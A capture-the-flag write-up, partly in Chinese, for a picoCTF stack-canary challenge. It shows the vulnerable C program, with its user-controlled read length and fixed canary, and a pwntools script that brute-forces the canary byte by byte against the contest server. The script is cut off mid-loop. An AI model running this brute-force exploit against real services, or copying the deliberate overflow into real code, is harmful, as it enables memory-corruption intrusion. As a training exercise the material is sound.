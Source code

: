 ```C

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

加了一个canary，每一次的canary都一样，有read函数可以精确控制写入字节数量，不会多写空字节，因此采用爆破的方式获取canary然后拿到flag。

payload：

```python
from pwn import *
context.log_level='debug'

io = remote('saturn.picoctf.net', 60065)

canary = [0, 0, 0, 0]

def get_payload(i, j):
	ret = cyclic(64)
	for k in range(j):
		ret += p8(canary[k])
	return ret + p8(i)

for j in range(4):
	for i in range(255):
		io.sendlineafter(b'> ', str(65 + j).encode())
		io.sendlineafter(b'Input> ', get_payload(i, j))
		if b'***** Stack Smashing Detected *****' in io.recv():
```